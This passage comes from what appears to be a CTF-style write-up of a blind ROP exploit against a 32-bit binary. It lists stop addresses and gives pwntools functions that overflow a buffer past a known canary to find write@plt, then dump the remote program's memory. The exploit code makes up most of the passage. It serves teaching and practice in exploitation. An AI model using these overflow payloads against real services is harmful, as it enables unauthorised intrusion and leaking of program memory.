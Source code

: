 In this way, I got the following stop address:

```python
[*] stop address: 0x80486cf
[*] stop address: 0x8048814
[*] stop address: 0x8048840
[*] stop address: 0x8048841
[*] stop address: 0x804884f
[*] stop address: 0x8048859
[*] stop address: 0x8048912
[*] stop address: 0x8048914
[*] stop address: 0x8048926
[*] stop address: 0x8048929
```

#### Get write plt

With the same stack structure as previous section, I take the `addr`(which in range[0x8048000, 0x8049000]) as return address of the function, and arguments are `int fd=1, const void *buf = 0x8048000, size_t count = 0x1000`. The return address of `write` is set to `stop_addr` so as not to crack the program.

To determine whether a function is write, we will check the output of it, if it is, the first few bytes of the output will be `b'\x7fELF'`:

```python
def get_write_plt():
    for addr in range(0x8048000, 0x8048000+0x1000):
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
        payload += p32(addr) + p32(stop_addr)
        payload += p32(1) + p32(0x8048000) + p32(0x1000)
        # payload += p32(stop_addr)

        go_to_recv(1)
        p.send(payload)

        tmp = p.recv(timeout=1)

        if tmp.startswith(b'\x7fELF'):
            print(tmp)
            log.info("write@plt address: 0x%x" % addr)
            return addr
```

```
[*] write@plt address: 0x8048560
```

#### Dump

Use `write` to dump the binary out:

```python
def dump_memory(start_addr, end_addr):
    result = b''
    while start_addr < end_addr:
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
        payload += p32(write_plt) + p32(stop_addr)
        payload += p32(1) + p32(start_addr) + p32(end_addr - start_addr)

        go_to_recv()
        p.send(payload)
        data = p.recv(timeout=0.1)
        log.info("leaking: [0x%x, 0x%x] -> %s" %
                 (start_addr, start_addr + len(data), data))
        result += data
        start_addr += len(data)
    return result
```